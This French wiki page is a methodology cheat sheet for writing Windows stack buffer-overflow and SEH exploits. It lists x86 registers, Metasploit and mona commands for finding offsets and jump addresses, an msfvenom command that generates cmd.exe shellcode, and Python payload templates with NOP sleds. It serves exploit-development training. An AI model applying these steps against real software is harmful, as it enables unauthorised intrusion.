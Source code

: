 ```yaml
---
title: Ecriture d'exploit
permalink: /Ecriture_d'exploit/
---
```


# Ecrite d'exploit

T0D0
----

-   Identification automatisée des bad chars
-   Fuzzing

Registres
---------

Les différents registres présents sont:

``` text
EAX - Main register used in arithmetic calculations. Also known as accumulator, as it holds results
      of arithmetic operations and function return values.
EBX - The Base Register. Pointer to data in the DS segment.  Used to store the base address of the
      program.
ECX - The Counter register is often used to hold a value representing the number of times a process
      is to be repeated. Used for loop and string operations.
EDX - A general purpose registers. Also used for I/O operations. Helps extend EAX to 64-bits.
ESI - Source Index register. Pointer to data in the segment pointed to by the DS register.  Used as
      an offset address in string and array operations. It holds the address from where to read data.
EDI - Destination Index register. Pointer to data (or destination) in the segment pointed to by the
      ES register.  Used as an offset address in string and array operations. It holds the implied
      write address of all string operations.
EBP - Base Pointer. Pointer to data on the stack (in the SS segment).  It points to the bottom of the
      current stack frame. It is used to reference local variables.
ESP - Stack Pointer (in the SS segment). It points to the top of the current stack frame. It is used
      to reference local variables.
EIP - Instruction Pointer (holds the address of the next instruction to be executed)
```

Saved Return Pointer Overflows
------------------------------

Génération d'un pattern metasploit:

``` bash
pattern_create.rb 10000 >> pattern_10000
```

Identification de l'offset (méthode automatisée avec mona)

``` text
!mona findmsp
```

Méthode manuelle (après avoir récupéré la valeur d'EIP) avec metasploit:

``` bash
pattern_offset.rb 76483676
[*] Exact match at offset 6109
```

Méthode manuelle (après avoir récupéré la valeur d'EIP) avec mona:

``` text
!mona pattern_offset 43386F43
!mona po 43386F43
```

Identification d'un 'jmp' vers le registre visé:

``` text
!mona jmp -r esp #jmp vers esp
```

Génération d'un shellcode faisant apparaîte cmd.exe:

``` bash
msfvenom -p windows/exec CMD=cmd.exe -f py --bad-chars "\x00\x0d\x0a"
```

Le payload final aura la forme suivante:

``` python
# [JUNK][EIP][NOP_SLED][SHELLCODE]
payload = 'A' * offset + ret_addr + '\x90' * 100 + buf
```

Structured Exception Handler (SEH)
----------------------------------

Génération d'un pattern metasploit:

``` bash
pattern_create.rb 10000 >> pattern_10000
```

Identification de l'offset (méthode automatisée avec mona):

``` text
!mona findmsp
```

Afficher le contenu des enregistrements SEH:

``` text
!mona exchain
```

Trouver des instructions 'pop pop ret':

``` text
!mona seh
```

Saut de 6 bytes (saute deux NOP et l'adresse du pop pop ret):

``` text
\xEB\x06\x90\x90
```

Le payload final aura la forme suivante:

``` python
# [JUNK][nSEH][SEH][NOP_SLED][SHELLCODE]
payload = 'A' * offset + jmp_esp + ret_addr + '\x90' * 100 + buf
```

Références
----------

-   [Fuzzy Security - Exploit Development](https://www.fuzzysecurity.com/tutorials/expDev/1.html)
-   [Awesome Windows Exploitation](https://github.com/enddo/awesome-windows-exploitation)

[Category:Méthodologies](/Category:Méthodologies "wikilink") [Category:Exploitation](/Category:Exploitation "wikilink")
